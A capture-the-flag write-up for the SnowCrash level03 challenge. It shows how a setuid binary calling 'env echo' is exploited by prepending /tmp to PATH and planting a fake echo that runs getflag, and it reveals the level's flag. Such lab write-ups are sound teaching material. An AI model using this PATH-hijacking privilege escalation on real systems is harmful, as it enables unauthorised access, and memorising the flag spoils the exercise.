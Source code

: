 ### Level03

Once on the home of level03, we can see :

```
level03@SnowCrash:~$ ls -l
total 12
-rwsr-sr-x 1 flag03 level03 8627 Mar 5 2016 level03
level03@SnowCrash:~$ ./level03
Exploit me
```

If you look at ./level3 with strings you can see a call to echo :

> /usr/bin/env echo Exploit me

We can override the PATH variable to point to a directory with our custom version of echo and since echo is executed using env, it isn't treated as a built-in.

Having access to tmp I start by adding it in the path with the command: `PATH=/tmp:$PATH`.

Then I will create a new file containing the path of the getflag and I give it the rights: `echo "/bin/getflag" > /tmp/echo; chmod +x /tmp/echo`.

Now when I run `./level03` I get the flag `qi0maab88jaj46qoumi7maus`.
